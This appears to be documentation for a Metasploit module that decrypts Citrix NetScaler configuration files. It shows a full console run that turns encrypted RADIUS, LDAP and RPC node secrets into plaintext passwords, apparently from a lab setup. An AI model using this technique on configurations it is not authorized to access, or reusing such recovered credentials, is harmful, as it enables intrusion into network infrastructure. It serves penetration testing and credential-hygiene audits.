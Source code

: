 Example run against config file without KEK from NetScaler VPX running NS11.0 Build 62.10.nc:
```
msf > use modules/auxiliary/admin/citrix/citrix_netscaler_config_decrypt
msf auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > set ns_conf /tmp/ns.conf.NS11.0-62.10.conf
ns_conf => /tmp/ns.conf.NS11.0-62.10.conf
msf auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > dump

[*] Config line:
add ssl certKey netscaler_cesium137_io -cert netscaler_cesium137_io.pem -key netscaler_cesium137_io.key -passcrypt "VbuAvo9nq18Zap0joBBv1a1Chm5BOerJ3GhYWU+Wbv0=" -expiryMonitor DISABLED
[!] Not decrypting passcrypt entry:
[!] Ciphertext: VbuAvo9nq18Zap0joBBv1a1Chm5BOerJ3GhYWU+Wbv0=
[*] Config line:
set ns encryptionParams -method AES256 -keyValue 7654526a2f3ceffd877b286a8acece43da700d06133dc985f7ebdeb076135bcb755472e04f5d92aba9f07334eb8e936a58782ce76bb3f6d6e44adf727e8e88d602b8bdae1817d26203fe281a8429574d -encrypted -encryptmethod ENCMTHD_3
[+] Plaintext: AAAAAAXyju437Ecnb/iQpa55uUvOskx7S5hCq5dB4kMq+Lcx6g==
[*] Config line:
add authentication radiusAction UTIL1 -serverIP 10.100.10.13 -serverPort 1812 -radKey f8e4f532e9d4e6bebab169b3be9e77b5c851466b7760c469bd64a15d2e8d3c602025c41372094d06e207789d58b6acb7 -encrypted -encryptmethod ENCMTHD_3
[+] Plaintext: hbZaADYDUmdHv7AhHsAb6eCde2M82m0
[*] Config line:
add authentication ldapAction LDAP -serverName ldap.cesium137.io -serverPort 636 -ldapBase "DC=chainheart,DC=com" -ldapBindDn wiz@cesium137.io -ldapBindDnPassword f5dc75680b925dbd3c0a8154c8fee056bfe77ac774797de3c0867d368bd09c2cdd872a36e15a1f07abf773740e2c8a12 -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -groupAttrName memberOf -secType SSL -ldapHostname ldap.cesium137.io
[+] User: wiz@cesium137.io
[+] Pass: 2AxDGAhirQWuuGxFpSq9ehFwny81RSm
[*] Config line:
set ns rpcNode 10.100.10.11 -password 9ec84444b10941dc4222f93b29a75f0aa237ffdcc73a81355bf5d1cf3d80058daaad7ca58e488e54bc3ff3eea8ffd9eb -encrypted -encryptmethod ENCMTHD_3 -srcIP 10.100.10.11
[+] Plaintext: 447a325517739063bbaa414ecf1d9c3
[*] Config line:
set ns rpcNode 10.100.10.12 -password dd5c0c4952509e2fcfaeb238dfc361b79a844df09254087920ee0cf4dc447161bde8491d8a39ded0fa2526cc46e6a00f -encrypted -encryptmethod ENCMTHD_3 -srcIP 10.100.10.11
[+] Plaintext: 447a325517739063bbaa414ecf1d9c3
[*] Config line:
add lb monitor mon_ldaps LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password e209865546c3d2e8462e3e7a962252eb6d9e26374163c8d902fc3535cb12638c514765dcea4792eb1e3e6b5e1c1c4cef -encrypted -encryptmethod ENCMTHD_3 -LRTM DISABLED -secure YES -baseDN "DC=chainheart,DC=com" -bindDN wiz@cesium137.io -filter CN=builtin
[+] User: wiz@cesium137.io
[+] Pass: 2AxDGAhirQWuuGxFpSq9ehFwny81RSm
[*] Config line:
add lb monitor mon_ldap LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password 4ae7bec92e25d985df315e543b846b2c30346840d8e945f5073832c3e479d60eee581f67d671759ae555210529eaec8d -encrypted -encryptmethod ENCMTHD_3 -LRTM DISABLED -destPort 636 -secure YES -baseDN "DC=chainheart,DC=com" -bindDN wiz@cesium137.io -filter CN=builtin
[+] User: wiz@cesium137.io
[+] Pass: 2AxDGAhirQWuuGxFpSq9ehFwny81RSm
[*] Auxiliary module execution completed
msf auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > 
```
